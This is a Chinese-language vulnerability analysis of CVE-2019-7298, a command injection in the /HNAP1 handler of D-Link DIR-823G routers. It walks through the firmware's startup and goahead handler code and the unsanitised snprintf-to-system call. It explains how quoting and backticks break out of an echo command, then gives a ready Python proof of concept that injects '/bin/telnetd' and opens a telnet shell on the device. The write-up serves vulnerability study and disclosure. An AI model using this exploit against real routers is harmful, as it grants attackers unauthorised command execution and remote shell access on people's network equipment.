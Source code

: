 ## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。在HNAP API函数处理请求之前，system函数执行了不可信的命令，触发该漏洞。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

在每次内核启动之后将启动init进程，init进程的启动时根据/etc/inittab这个文件赖在不同运行级别启动相应的进程或执行相应的操作。其中sysinit代表系统的初始化，只有系统开机或重新启动的时候，后面对应的process才会执行一次。

```
::sysinit:/etc/init.d/rcS
```

在rcS中，先执行一些列mkdir和设置，执行了`goahead`。

> `goahead` 是一个开源的 `web` 服务器，用户的定制性非常强。可以通过一些 `goahead` 的 `api`定义 `url`处理函数和可供 `asp` 文件中调用的函数，具体可以看看官方的代码示例和网上的一些教程。

goahead的websUrlHandlerDefine函数允许用户自定义不同url的处理函数：

```
websUrlHandlerDefine(T("/HNAP1"), NULL, 0, websHNAPHandler, 0);
websUrlHandlerDefine(T("/goform"), NULL, 0, websFormHandler, 0);
websUrlHandlerDefine(T("/cgi-bin"), NULL, 0, websCgiHandler, 0);
```

以上代表/HNAP1的请求交给websHNAPHandler函数处理，/gofrom的请求交给websFormHandler函数处理，/cgi-bin的请求交websCgiHandler函数处理。这些处理函数有统一的参数：

```
int (*fn)(webs_t wp, char_t *url, char_t *path, char_t *query)
wp    Web server connection handle.  
url   Request URL.  
path  Request path portion of the URL.  
query Query string portion of the URL.
```

先了解/HNAP1请求的处理函数，在goahead中查找“HNAP1”字符串并通过xref定位处理函数sub_42383c

![image](resource/%EF%BC%88CVE-2019-7298%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/8-20201014111446453.png)

`sub_4238c`主要通过遍历全局的函数表来处理HNAP1接受的不同请求。function_list中每个元素的前四个字节为函数名，后四个字节为对应的函数地址。当找到在function_list中找到函数名与请求相同的字符串时，向/var/hnaplog中记录`param_7`的值，这个值但从汇编不太能看出，[hackedbylh](https://xz.aliyun.com/t/2834#toc-4)指出是post的报文，在运行过程中查看/var/hnaplog能猜出来。之后调用对应的函数地址处理相关请求。

这里无论处理请求的函数名是什么，在找到之后会通过snprintf输入字符且未做检查，之后直接system执行，存在命令注入漏洞。如果post请求是'`/bin/telnetd`'，就会先开启telnet服务器，再讲字符写入hnaplog。

![image](resource/%EF%BC%88CVE-2019-7298%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/9-20201014111446456.png)

![image](resource/%EF%BC%88CVE-2019-7298%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/10-20201014111446458.png)

另外需要注意，post的数据要加上引号，因为echo '%s' > /var/hnaplog中本身带了单引号，如果只是`/bin/telnet`，相当于

```
echo '`/bin/telnet`' > /var/hnaplog
```

由于命令由引号括起，会当做字符串处理，不会执行命令

而

```
echo ''`/bin/telnet`'' > /var/hnaplog
```

post中的两个引号分别与自带的两个引号组合，反引号没有嵌套在单引号中，会当做命令执行。

### poc

```
import requests
from pwn import *

IP='192.168.0.1'
command ="'`/bin/telnetd`'"
length = len(command)

headers = requests.utils.default_headers()
headers["Content-Length"]=str(length)
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/Login"'#此处的Login可以替换为任何在function_list中的函数名
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"


payload = command
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

p=remote(IP,23)
p.interactive()
```